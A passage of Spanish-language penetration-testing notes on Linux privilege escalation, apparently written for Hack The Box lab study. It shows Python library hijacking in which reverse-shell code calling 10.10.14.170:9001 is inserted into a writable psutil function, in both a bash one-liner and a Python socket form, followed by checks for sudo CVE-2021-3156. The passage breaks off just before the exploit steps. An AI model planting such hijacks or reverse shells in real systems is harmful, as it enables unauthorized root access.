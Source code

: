 	available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total
	
	print(f"Available memory: {round(available_memory, 2)}%")
	```
- Buscamos donde está definida esa función dentro del paquete
	```bash
	 grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*
	```
- Encontrando que en uno de los resultados tenemos permisos de escritura: 
	```bash
	ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
	```
- Añadimos al principio de la función lo siguiente: 
	```python
	def virtual_memory():
	
		...SNIP...
		#### Hijacking
		import os
		os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.170/9001 0>&1'")
		# Alternativa más sigilosa
		import socket, subprocess, os

		s = socket.socket()
		s.connect(("10.10.14.170", 9001))
		os.dup2(s.fileno(), 0)  # stdin
		os.dup2(s.fileno(), 1)  # stdout
		os.dup2(s.fileno(), 2)  # stderr
		subprocess.call(["/bin/bash", "-i"])
	```
- Y tras ejecutar el script como root obtendremos una sesión como tal
### Library path y PYTHONPATH
TODO: en [htb](https://academy.hackthebox.com/module/51/section/1640)
## Vulnerabilidades más recientes
### Sudo
- Vulnerabilidad CVE-2021-3156, que afecta a  las siguientes versiones (entre otras): 
	- 1.8.31 - Ubuntu 20.04
	- 1.8.27 - Debian 10
	- 1.9.2 - Fedora 33
- Podemos encontrar la versión de sudo con
	```bash
	sudo -V | head -n1
	```
- Podemos comprobar si está parcheado del siguiente modo: 
	```bash
	sudoedit -s /
	sudoedit: /: not a regular file # explotable
	usage: sudoedit # no explotable
	```
- Si se cumple que es una verisión conocida podemos escalar del siguiente modo: 
